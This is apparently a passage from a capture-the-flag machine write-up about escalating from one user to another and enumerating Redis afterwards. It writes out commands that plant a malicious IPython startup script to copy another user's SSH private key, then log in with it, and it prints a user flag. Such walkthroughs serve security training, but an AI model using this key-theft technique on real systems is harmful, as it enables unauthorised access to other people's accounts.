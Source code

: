 ````
- Since the ipython related command also mention a directory ```/opt/scripts_review ```in pspy 

![](./IMG/56.png)
- So, change the directory to below : 
```
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo "import os;os.system('cat ~/.ssh/id_rsa > ~/dan_smith.key')" > /opt/scripts_review/profile_default/startup/poc.py
```

![](./IMG/57.png)
- Then wait for the dan_smith's ssh key in james_mason directory 

![](./IMG/58.png)
- Using the ssh private key to login to dan_smith
```
ssh dan_smith@10.10.11.172 -i id_rsa
```

![](./IMG/59.png)
- Check id, and user flag 

![](./IMG/60.png)
- user flag
```992c7bce2ba2bb9e024dba8bba7895b3```

![](./IMG/61.png)

## Post Exploitation

### Information Gathering 
- Check the ```pspy64s``` result 
- it's easy to find ``` /usr/bin/redis-server 127.0.0.1:6379``` 

![](./IMG/62.png)
- Check Redis version: 6.0.15
```
redis-server -v
```

![](./IMG/63.png)
- Search Exploit on Redis 6.0.115


- According to writeup, I will observe the current user group from ```id```
- And it's easy to know the user : dan_smith belongs to 3 groups 
    1. dan_smith (1002)
    2. developer (1001)
    3. sysadmin (1003)

![](./IMG/64.png)
- Compare to james_mason, the different is on sysadmin

![](./IMG/65.png)
- Let's find out what's file group also is sysadmin
```find / -group sysadmin 2>/dev/null```
- So I find the "redis_connector_dev" in ```/usr/local/bin```

![](./IMG/66.png)
- It's a ELF file 

![](./IMG/67.png)

````
